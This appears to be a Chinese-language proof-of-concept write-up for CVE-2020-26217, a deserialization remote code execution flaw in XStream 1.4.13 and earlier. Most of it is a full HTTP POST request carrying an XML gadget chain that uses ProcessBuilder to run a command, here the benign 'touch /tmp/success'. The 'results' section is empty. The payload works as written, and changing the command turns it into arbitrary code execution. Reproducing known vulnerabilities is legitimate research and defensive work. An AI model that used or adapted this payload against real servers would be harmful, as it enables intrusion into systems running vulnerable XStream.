

# Xstream <= 1.4.13 反序列化RCE（CVE-2020-26217）

## 漏洞描述

Xstream <= 1.4.13 反序列化RCE， 无回显

## writeup

- 待执行命令 

```
touch /tmp/success
```

- POC

```
POST /main.jsp HTTP/1.1
Host: x.x.x.x:1234
Content-Length: 2047
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://x.x.x.x:1234
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_5) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.82 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://x.x.x.x:1234/test.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

<map>
  <entry>
    <jdk.nashorn.internal.objects.NativeString>
      <flags>0</flags>
      <value class='com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data'>
        <dataHandler>
          <dataSource class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource'>
            <contentType>text/plain</contentType>
            <is class='java.io.SequenceInputStream'>
              <e class='javax.swing.MultiUIDefaults$MultiUIDefaultsEnumerator'>
                <iterator class='javax.imageio.spi.FilterIterator'>
                  <iter class='java.util.ArrayList$Itr'>
                    <cursor>0</cursor>
                    <lastRet>-1</lastRet>
                    <expectedModCount>1</expectedModCount>
                    <outer-class>
                      <java.lang.ProcessBuilder>
                        <command>
                          <string>touch</string>
			  <string>/tmp/success</string>
                        </command>
                      </java.lang.ProcessBuilder>
                    </outer-class>
                  </iter>
                  <filter class='javax.imageio.ImageIO$ContainsFilter'>
                    <method>
                      <class>java.lang.ProcessBuilder</class>
                      <name>start</name>
                      <parameter-types/>
                    </method>
                    <name>start</name>
                  </filter>
                  <next/>
                </iterator>
                <type>KEYS</type>
              </e>
              <in class='java.io.ByteArrayInputStream'>
                <buf></buf>
                <pos>0</pos>
                <mark>0</mark>
                <count>0</count>
              </in>
            </is>
            <consumed>false</consumed>
          </dataSource>
          <transferFlavors/>
        </dataHandler>
        <dataLen>0</dataLen>
      </value>
    </jdk.nashorn.internal.objects.NativeString>
    <string>test</string>
  </entry>
</map>
```

## 复现结果

